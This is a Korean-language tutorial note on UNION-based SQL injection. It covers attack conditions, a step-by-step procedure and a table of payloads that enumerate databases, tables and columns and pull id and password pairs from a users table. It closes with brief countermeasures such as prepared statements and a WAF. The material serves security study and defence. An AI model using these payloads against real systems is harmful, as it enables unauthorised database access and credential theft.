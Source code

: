 
## 유니온 기반 SQL 인젝션 (UNION-based SQL Injection)

`UNION-based SQL Injection`은 **SQL의 `UNION` 연산자를 악용하여 원래 쿼리 결과 뒤에 공격자가 만든 쿼리 결과를 덧붙이는 방식**의 공격이다.

 결과가 HTTP 응답에 출력될 때, 공격자가 원하는 데이터베이스 내부 정보를 직접 확인할 수 있어 강력한 정보 수집 도구로 쓰인다.

---

## 특징

- SQL의 `UNION` 또는 `UNION ALL` 연산자 사용
- 쿼리 결과가 직접 HTML/응답에 노출되어야 유효
- **에러 기반보다 더 많은 데이터**를 한 번에 추출 가능
- 응답 차이가 명확해 **Blind 방식보다 빠름**

---

## 공격 조건

`UNION` 연산자는 다음 조건이 만족되어야 정상 작동한다:

1. **컬럼 수 일치**: 원래 쿼리와 공격자가 삽입한 쿼리의 SELECT 컬럼 수가 같아야 함  
2. **컬럼 타입 호환**: 각 컬럼의 데이터 타입이 원래 쿼리와 일치하거나 호환되어야 함

---

## 공격 절차

1. **취약점 존재 여부 확인**
   ```sql
   ' OR 1=1 --
   ' AND 1=2 --
   ```
   - 응답 차이가 있을 경우 인젝션 가능성 있음

2. **컬럼 개수 파악**
   ```sql
   ' ORDER BY 1 --
   ' ORDER BY 2 --
   ...
   ' ORDER BY N --
   ```
   - 오류 발생 직전 숫자가 컬럼 수  
   또는
   ```sql
   ' UNION SELECT NULL --
   ' UNION SELECT NULL, NULL --
   ...
   ```

3. **출력 컬럼 탐색**
   ```sql
   ' UNION SELECT 1,2,3 --
   ```
   - 숫자 대신 `'A'`, `'B'` 등을 넣어 문자열 출력 가능 컬럼 확인

4. **데이터베이스 구조 및 정보 추출**
   ```sql
   ' UNION SELECT database(), user(), version() --
   ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
   ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
   ' UNION SELECT id, password FROM users --
   ```

---

## DBMS 별 주요 기법

| DBMS       | 대표 함수 / 기법 예시 |
|------------|------------------------|
| **MySQL**  | `UNION SELECT`, `information_schema`, `group_concat()` 등 |
| **MSSQL**  | `UNION SELECT`, `sysobjects`, `syscolumns` 등 |
| **Oracle** | `UNION SELECT`, `all_tables`, `all_tab_columns`, `dual` 테이블 |
| **PostgreSQL** | `UNION SELECT`, `pg_catalog.pg_tables`, `pg_user`, `version()` 등 |

---

## MySQL 예시

### 1. 컬럼 수 파악
```sql
' ORDER BY 3 --
```

### 2. 출력 위치 확인
```sql
' UNION SELECT 1,2,3 --
```

### 3. DB 및 사용자 정보
```sql
' UNION SELECT database(), user(), version() --
```

### 4. 테이블 및 컬럼 탐색
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

### 5. 실제 데이터 추출
```sql
' UNION SELECT id, password FROM users --
```

---

## 페이로드 예시

| 목적 | 페이로드 예시 |
|------|----------------|
| DB 이름, 사용자 추출 | `' UNION SELECT database(), user(), version() --` |
| 테이블 목록 확인 | `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --` |
| 컬럼 목록 확인 | `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --` |
| 사용자 데이터 추출 | `' UNION SELECT id, password FROM users --` |

---

## 대응 방안

- **입력값 필터링**: `'`, `--`, `union`, `select`, `information_schema` 등 SQL 관련 키워드 필터링  
- **Prepared Statement 사용**: SQL 명령어와 데이터를 명확히 분리
- **출력 제한**: 사용자 입력이 포함된 SQL 결과를 직접 출력하지 않도록 설계
- **WAF 도입**: SQL Injection 시도 탐지 및 차단
- **정기적 점검**: 자동화 도구를 통한 정기 스캔 및 코드 리뷰

---

## 정리

> UNION 기반 SQL Injection은 **쿼리 결과에 공격자의 쿼리 결과를 합쳐 출력하는 방식**으로, 시스템이 응답에 SQL 결과를 포함하는 구조일 때 강력한 정보 추출 수단이다.

> 빠른 정보 노출이 가능하지만, 쿼리 구조를 정확히 파악하고 컬럼 수와 타입을 맞춰야 성공 가능성이 높아진다.

> 대응을 위해선 **출력 제한**, **쿼리 구조 보호**, **정형 입력만 허용하는 설계**가 필수적이다.

## 참고 사이트
>[SegaFalut Academy](https://academy.segfaulthub.com/ "nomaltic 해킹 강의")

>[NetSPI](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql "UNION 기반 SQL 인젝션")

>[Oracle](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet "Oracle SQL Injection Cheat Sheet")


<hr />